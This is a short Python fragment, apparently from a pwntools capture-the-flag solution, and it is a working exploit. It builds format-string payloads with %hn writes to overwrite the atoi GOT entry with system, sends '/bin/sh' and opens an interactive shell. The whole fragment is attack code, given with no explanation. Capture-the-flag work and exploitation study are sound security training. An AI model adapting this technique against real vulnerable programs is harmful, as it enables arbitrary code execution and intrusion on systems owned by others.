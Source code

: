 ```python
payload2 = b"1_______%" + str(values[0][1] - 46).encode("ascii") + b"p%" + values[0][2].encode("ascii") + b"$hn%" 
payload2 += str(values[1][1] - values[0][1]).encode("ascii") + b"p%"+ values[1][2].encode("ascii") + b"$hn%"
payload2 += str(values[2][1] - values[1][1]).encode("ascii") + b"p%"+ values[2][2].encode("ascii") + b"$hn--" 

r.sendlineafter(b"B: ",payload2)

##################################

r.recvuntil("Calculating for A: ")
log.info("rewrote atoi GOT to system")

payload1 = b"/bin/sh\x00"
r.sendlineafter(b"A: ",payload1)
payload2 = b"/sh"
r.sendlineafter(b"B: ",payload2)
                
r.interactive()


```